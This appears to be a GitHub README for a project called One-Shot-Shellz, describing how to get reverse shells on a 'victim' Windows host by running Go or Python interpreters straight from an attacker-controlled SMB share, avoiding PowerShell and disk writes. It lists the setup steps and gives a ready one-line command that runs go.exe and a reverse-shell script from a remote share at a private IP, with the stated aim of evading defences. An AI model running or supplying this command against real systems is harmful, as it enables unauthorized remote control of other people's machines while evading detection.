 # One-Shot-Shellz
## Abusing Remote Windows SMB Shares to Get Reverse Shells In Any Programming Language

This is my collection of ways to Execute Reverse Shells on a Victim Windows Host not using PowerShell or touching disk with an .exe.

More will be added as and when I have the time to research it.

The process is extremely simple.

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python and Go are the only one I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your one shot command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)
